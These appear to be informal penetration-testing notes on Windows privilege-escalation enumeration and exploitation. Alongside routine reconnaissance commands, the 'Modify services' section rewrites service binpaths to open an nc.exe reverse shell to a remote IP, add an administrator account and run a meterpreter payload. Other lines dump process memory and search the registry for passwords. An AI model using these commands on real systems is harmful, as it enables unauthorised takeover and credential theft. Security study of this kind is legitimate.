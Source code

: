 ```yaml
---
description: Still messy
---
```


# Windows PE Methodology

## Automatic

Best tool to use is WinPeas, PowerUp.ps1 and PowerView.ps1 if needed. Generally, I run WinPEAS no matter what and then view information from there.&#x20;

## Manual

#### Check system information:

```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### Check Networking information:

```
netstat -ano
ipconfig
netstat -a -b #view all services with listening ports
```

#### Check ENV Vars:

```
set
dir env:
Get-ChildItem Env: | ft key,value
```

#### Check PowerShell History:

```powershell
ConsoleHost_History
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

#### Check Powershell Logging:

```
reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging

reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging

reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging

reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging
```

#### Check Internet Settings:

```
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
```

#### Check the user that we are:

```
whoami 
whoami /priv
whoami /groups
net user <username>
net user <username> /domain # for AD
```

#### Check logged-on users:

```
qwinsta
klist sessions
```

#### Password Policy:

```
net accounts
```

#### Running Processes:

```
Tasklist /SVC #List processes running and services
tasklist /v /fi "username eq system" #Filter "system" processes

#With allowed Usernames
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

#Without usernames
Get-Process | where {$_.ProcessName -notlike "svchost*"} | ft ProcessName, Id
```

#### Check permissions of binaries:

```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v "system32"^|find ":"') do (
	for /f eol^=^"^ delims^=^" %%z in ('echo %%x') do (
		icacls "%%z" 
2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo.
	)
)
```

#### Checking permissions of folders of binaries:

```
for /f "tokens=2 delims='='" %%x in ('wmic process list full^|find /i "executablepath"^|find /i /v 
"system32"^|find ":"') do for /f eol^=^"^ delims^=^" %%y in ('echo %%x') do (
	icacls "%%~dpy\" 2>nul | findstr /i "(F) (M) (W) :\\" | findstr /i ":\\ everyone authenticated users 
todos %username%" && echo.
)
```

#### Check memory of processes:

```
procdump.exe -accepteula -ma <process name>
```

#### Check services:

```
net start
wmic service list brief
sc query
Get-Service
```

#### Check privileges over these services:

```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

#### Modify services:

```
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

#### Check files that we can write to:

```
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\
accesschk.exe -uwdqs Users c:\
```

#### Check programs installed:

```
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```

#### Check AV:

```
cmd.exe /c "sc query windefend"

reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s
```

Look for RDP access within machines itself. Sometimes exploits require RDP access to do.

#### Check Sticky notes:

```
dir /s #within user directory and find for .sqlite files
```

#### Checking password in Registry:

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

